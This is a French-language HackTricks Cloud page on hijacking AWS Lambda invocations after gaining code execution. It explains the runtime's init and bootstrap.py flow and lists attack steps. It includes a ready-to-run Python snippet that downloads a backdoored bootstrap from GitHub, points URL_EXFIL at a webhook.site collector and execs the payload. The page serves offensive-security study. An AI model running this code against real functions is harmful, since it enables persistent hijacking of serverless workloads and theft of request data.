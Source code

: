 # AWS - Voler des requêtes Lambda

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

## Flux Lambda

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** est un processus en dehors du conteneur qui **envoie** des **invocations** au processus **init**.
2. Le processus init écoute sur le port **9001** exposant quelques points de terminaison intéressants :
* **`/2018-06-01/runtime/invocation/next`** – obtenir le prochain événement d'invocation
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – retourner la réponse du gestionnaire pour l'invocation
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – retourner une erreur d'exécution
3. **bootstrap.py** a une boucle récupérant les invocations du processus init et appelle le code de l'utilisateur pour les traiter (**`/next`**).
4. Enfin, **bootstrap.py** envoie à init la **réponse**

Notez que bootstrap charge le code de l'utilisateur en tant que module, donc toute exécution de code effectuée par le code de l'utilisateur se produit en réalité dans ce processus.

## Voler des requêtes Lambda

L'objectif de cette attaque est de faire exécuter au code de l'utilisateur un processus **`bootstrap.py`** malveillant à l'intérieur du processus **`bootstrap.py`** qui gère la requête vulnérable. De cette manière, le processus **bootstrap malveillant** commencera à **communiquer avec le processus init** pour gérer les requêtes pendant que le bootstrap **légitime** est **piégé** en exécutant le malveillant, donc il ne demandera pas de requêtes au processus init.

C'est une tâche simple à réaliser car le code de l'utilisateur est exécuté par le processus **`bootstrap.py`** légitime. Ainsi, l'attaquant pourrait :

* **Envoyer un faux résultat de l'invocation actuelle au processus init**, de sorte que init pense que le processus bootstrap attend plus d'invocations.
* Une requête doit être envoyée à **`/${invoke-id}/response`**
* L'invoke-id peut être obtenu à partir de la pile du processus **`bootstrap.py`** légitime en utilisant le module python [**inspect**](https://docs.python.org/3/library/inspect.html) (comme [proposé ici](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) ou simplement en le demandant à nouveau à **`/2018-06-01/runtime/invocation/next`** (comme [proposé ici](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Exécuter un **`boostrap.py`** malveillant qui gérera les prochaines invocations
* Pour des raisons de discrétion, il est possible d'envoyer les paramètres d'invocation lambda à un C2 contrôlé par l'attaquant et ensuite de gérer les requêtes comme d'habitude.
* Pour cette attaque, il suffit d'obtenir le code original de **`bootstrap.py`** du système ou de [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), d'ajouter le code malveillant et de l'exécuter à partir de l'invocation lambda actuelle.

### Étapes de l'attaque

1. Trouver une vulnérabilité **RCE**.
2. Générer un **bootstrap** **malveillant** (par exemple [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Exécuter** le bootstrap malveillant.

Vous pouvez facilement effectuer ces actions en exécutant :
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Pour plus d'informations, consultez [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Références

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

